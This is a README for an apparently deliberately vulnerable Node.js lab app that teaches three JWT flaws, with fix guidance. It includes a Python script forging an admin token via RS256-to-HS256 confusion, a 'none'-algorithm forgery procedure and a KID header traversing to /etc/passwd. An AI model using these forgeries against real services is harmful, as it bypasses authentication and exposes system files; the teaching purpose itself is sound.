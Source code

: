 # JWT Vulnerabilities Demo

This is a simple Node.js application that demonstrates three common JWT vulnerabilities:
1. The "none" algorithm vulnerability
2. The RS256 to HS256 algorithm confusion vulnerability
3. The JWT KID parameter injection vulnerability

This application is intentionally vulnerable for educational purposes only.

## Setup

1. Generate RSA keys:
```bash
node generate-keys.js
```

2. Install dependencies:
```bash
npm install
```

3. Start the server:
```bash
npm start
```

## Available Endpoints

### Public Key
- `GET /public.pem` - Returns the public key used for RS256 verification

### Authentication
- `POST /login` - Login with username/password (HS256)
- `POST /rs256-login` - Login with username/password (RS256)
- `POST /kid-login` - Login with username/password (KID)

### Protected Routes
- `GET /protected` - Protected route (vulnerable to "none" algorithm)
- `GET /rs256-protected` - Protected route (vulnerable to algorithm confusion)
- `GET /kid-protected` - Protected route (vulnerable to KID injection)

## Testing the Vulnerabilities

### 1. "none" Algorithm Vulnerability

#### Get a Valid Token
First, get a valid JWT token by logging in:
```bash
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### Exploit the Vulnerability
1. Take the JWT token received from the login endpoint
2. Decode it using a JWT decoder
3. Modify the header to use the "none" algorithm
4. Remove the signature
5. Send the modified token to the protected endpoint

Example of a modified JWT header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

Send the modified token to the protected endpoint:
```bash
curl http://localhost:3000/protected \
  -H "Authorization: Bearer <modified-token>"
```

### 2. RS256 to HS256 Algorithm Confusion

#### Get the Public Key
First, download the public key:
```bash
curl http://localhost:3000/public.pem -o public.pem
```

#### Get a Valid RS256 Token
Get a valid RS256 JWT token:
```bash
curl -X POST http://localhost:3000/rs256-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### Exploit the Vulnerability
1. Take the RS256 token received from the login endpoint
2. Decode it using a JWT decoder
3. Modify the header to use the HS256 algorithm
4. Sign the token using the public key as the HMAC secret
5. Send the modified token to the protected endpoint

Example Python code to generate the attack:
```python
import base64
import hashlib
import hmac

f = open("public.pem")
key = f.read()
# RS => HS, login -> admin
str = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6ImFkbWluIn0"

sig = base64.urlsafe_b64encode(hmac.new(key.encode(), str.encode(), hashlib.sha256).digest()).decode('utf-8').rstrip("=")

print(str+"."+sig)
```

Send the modified token to the protected endpoint:
```bash
curl http://localhost:3000/rs256-protected \
  -H "Authorization: Bearer <modified-token>"
```

### 3. JWT KID Parameter Injection

#### Get a Valid KID Token
First, get a valid JWT token with KID:
```bash
curl -X POST http://localhost:3000/kid-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### Exploit the Vulnerability
1. Take the token received from the login endpoint
2. Decode it using a JWT decoder
3. Modify the KID parameter in the header to point to a malicious file
4. Resign the token with the key from the malicious file
5. Send the modified token to the protected endpoint

Example of a modified JWT header:
```json
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "../../../../../../etc/passwd"
}
```

Send the modified token to the protected endpoint:
```bash
curl http://localhost:3000/kid-protected \
  -H "Authorization: Bearer <modified-token>"
```

## Security Implications

### "none" Algorithm Vulnerability
This vulnerability occurs because:
1. The application accepts tokens with the "none" algorithm
2. The verification process doesn't properly validate the algorithm
3. Tokens without a signature are accepted

### RS256 to HS256 Algorithm Confusion
This vulnerability occurs because:
1. The application accepts both RS256 and HS256 algorithms
2. The public key is used as the HMAC secret
3. The verification process doesn't properly validate the algorithm

### JWT KID Parameter Injection
This vulnerability occurs because:
1. The KID parameter is not properly sanitized
2. The application allows directory traversal in the KID parameter
3. The key file path is constructed without proper validation

## How to Fix

### "none" Algorithm Fix
To fix this vulnerability:
1. Always specify the exact algorithm to use during verification
2. Never accept tokens with the "none" algorithm
3. Always verify the signature

Example of secure verification:
```javascript
jwt.verify(token, SECRET_KEY, { algorithms: ['HS256'] });
```

### RS256 to HS256 Algorithm Confusion Fix
To fix this vulnerability:
1. Always specify the exact algorithm to use during verification
2. Never accept HS256 when expecting RS256
3. Use different keys for signing and verification

Example of secure verification:
```javascript
jwt.verify(token, publicKey, { algorithms: ['RS256'] });
```

### JWT KID Parameter Injection Fix
To fix this vulnerability:
1. Sanitize the KID parameter to prevent directory traversal
2. Use a whitelist of allowed KID values
3. Validate the key file path before reading

Example of secure KID handling:
```javascript
const allowedKids = ['key1', 'key2', 'key3'];
if (!allowedKids.includes(decodedHeader.kid)) {
    return res.status(401).json({ message: 'Invalid KID' });
}
const keyPath = path.join(KEYS_DIR, decodedHeader.kid);
``` 